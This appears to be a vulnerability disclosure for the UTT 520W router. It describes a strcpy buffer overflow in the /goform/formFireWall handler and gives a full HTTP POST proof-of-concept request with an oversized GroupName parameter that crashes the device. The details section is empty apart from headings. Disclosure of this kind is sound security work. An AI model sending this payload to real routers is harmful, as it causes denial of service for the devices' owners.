


# Information

**Vendor of the products:** UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** 进取 520W

**Affected firmware version:** <=v3v1.7.7-180627

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2599)

# Overview

The UTT Aggressive 520W router has a critical overflow vulnerability. An attacker can control the parameters by accessing the route /goform/formFireWall, which can cause a buffer overflow. Specifically, this can be done by "strcpy((char *)(InstPointByIndex + 32), src_1);"Implement a denial-of-service attack.

# Vulnerability details

The API for invoking the function


Here some values are taken and need to be passed into the if judgment



There is an overflow here



# POC

```
POST /goform/formFireWall HTTP/1.1
Host: 192.168.1.1
Content-Length: 658
Cache-Control: max-age=0
Authorization: Digest username="admin", realm="UTT", nonce="80758026511f147977ce8ea9363e038c", uri="/goform/formArpBindGlobalConfig", algorithm=MD5, response="3c90b3b4d198905f88cf1301ff8ad6b5", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=000001a1, cnonce="71e33390dc75c484"
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/IPMac.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zhcn; utt_bw_rdevType=; td_cookie=2522114788
Connection: close

PolicyName=test_firewall_policy&PolicyEnable=1&FromIP=192.168.1.1&EndIP=192.168.1.254&GroupName==aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&sourceIP=ipSingle&destFromIP=10.0.0.1&destEndIP=10.0.0.254&destGroupName=test_dest_group&destIP=destIpSingle&Status=1&FilterType=0&fwType=fwgrp&day=127&timestart=00:00&timestop=23:59&Action=add&PolicyNameold=non_exist_old_policy&Protocol=6&DesFromPort=80&DesEndPort=80&SouFromPort=1024&SouEndPort=65535&FilterKey=test_filter&fwGrpName=test_fw_group
```

